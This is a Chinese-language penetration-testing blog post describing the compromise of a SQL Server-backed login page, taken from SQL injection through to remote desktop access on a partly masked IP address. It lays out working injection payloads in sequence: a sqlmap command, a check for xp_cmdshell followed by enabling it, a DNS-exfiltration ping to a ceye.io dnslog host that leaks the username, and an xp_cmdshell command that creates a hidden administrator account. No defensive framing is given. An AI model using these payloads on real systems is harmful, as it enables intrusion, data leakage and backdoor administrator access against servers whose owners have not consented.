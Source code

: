 ```yaml
---
date: 2019-06-25 17:01:53
title: 从 SQL Server 注入到 远程连接桌面
description: 从 SQL Server 注入到 远程连接桌面
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 目标情况
* 只有一个登录框

### 0x01 发现注入
简单看了下登陆框，可以爆破用户名

![50](/img/post/Xnip2019-06-25_09-42-33.png)
![50](/img/post/Xnip2019-06-25_09-43-33.png)

加单引号后报错，试了试 and 1=1 确实存在注入

![60](/img/post/Xnip2019-06-25_09-45-03.png)
![50](/img/post/Xnip2019-06-25_09-46-06.png)

### 0x01 进一步测试
尝试得到数据版本: ```admin' and @@version=1--```
![60](/img/post/Xnip2019-06-25_09-49-45.png)

抓包 sqlmap 跑了下发现不行: ```sqlmap -r 1.txt --risk 3 --level 3 --dbms "Microsoft SQL Server" --second-order "http://123.xxx.xxx.180:2001/error.aspx"```

返回: all tested parameters appear to be not injectable，跑不出来，只能手工了

看下能不能多语句执行: ```admin';select convert(int,(select user));--```

结果发现可以执行成功，能进行多语句执行
![60](/img/post/Xnip2019-06-25_09-56-08.png)


### 0x02 尝试多语句执行添加用户
* 查看是否有 xp_cmdshell  
Payload：```admin';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5';--```
![60](/img/post/Xnip2019-06-25_10-05-25.png)

* 开启 xp_cmdshell  
Payload：```admin';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--```
![50](/img/post/Xnip2019-06-25_10-07-41.png)

* 查看 whoami  
Payload：```admin';exec master..xp_cmdshell 'ping %USERNAME%.vxxxx9.ceye.io';--```
![50](/img/post/Xnip2019-06-25_10-10-38.png)
在 dnslog 可以看到是 SYSTEM 权限，可以直接添加用户
![60](/img/post/Xnip2019-06-25_10-16-37.png)

* 添加用户  
看了下端口，3389开着

```bash
➜  sudo nmap -sS -Pn -n -p3389 123.xxx.xxx.180
Password:
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-25 09:30 CST
Nmap scan report for 123.xxx.xxx.180
Host is up.

PORT     STATE    SERVICE
3389/tcp open     ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.07 seconds
```

直接添加用户: ```admin';exec master..xp_cmdshell 'net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes'--```，尝试登陆
![60](/img/post/Xnip2019-06-25_10-22-58.png)












